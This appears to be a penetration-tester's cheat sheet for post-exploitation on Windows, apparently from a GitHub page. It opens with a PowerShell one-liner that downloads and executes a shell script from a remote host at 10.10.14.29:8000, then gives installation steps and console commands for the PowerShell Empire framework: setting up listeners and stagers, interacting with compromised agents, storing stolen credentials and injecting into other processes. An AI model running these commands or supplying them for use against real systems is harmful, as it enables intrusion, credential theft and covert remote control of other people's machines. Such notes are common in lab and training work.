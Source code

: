 * setup webserver with powershell script and a listener
```
powershell "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.29:8000/shell.ps1')"
```

# PowerShell Empire
PowerShell empire is a post-exploitation agent. Empire implements the ability to run PowerShell agents without needing powershell.exe, modules ranging from keyloggers to Mimikatz, and adaptable communications to evade network detection. This is all bundled into a framework which is publicly available on GitHub.

## Installation
```
sudo git clone https://github.com/PowerShellEmpire/Empire.git
cd Empire
sudo ./setup/install.sh
```
## Sample Commands
```
listeners
uselistener http # use tab (autocompletion) to get a list of available listeners
info
set Host 10.10.10.10
execute
back
usestager windows/launcher_bat
set Listener http
execute

agents
interact <Name> 

creds
creds add domain.com user pass!
```

## Migrate to another process
```
interact XYZXYZXY
ps
psinject http 3568
agents
interact ABCABCAB
```

## Modules
```
usemodule # use tab (autocompletion) to get a list of available listeners
```

